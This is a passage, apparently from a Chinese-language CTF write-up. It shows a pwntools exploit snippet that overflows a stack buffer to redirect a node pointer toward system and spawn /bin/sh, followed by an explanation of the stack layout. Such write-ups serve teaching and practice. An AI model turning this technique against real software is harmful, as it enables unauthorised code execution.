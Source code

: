 ```python

p.send(payload)

payload = 'a' * 0xfc + p32(n3) #栈溢出，修改n3->next1指向的内容

p.sendline(payload)

p.sendline('/bin/sh\x00')

p.interactive()

```

  

之所以为什么是要修改`n3->next1`，因为system地址写入到了node2的name中，当`__gg`函数执行时，此时栈顶排列为

  

| n3 |

| --- |

| n4 |

| n5 |

| n6 |

| name |

| num |

  
  

接下来就要执行system函数，所以要修改n3指向的地址。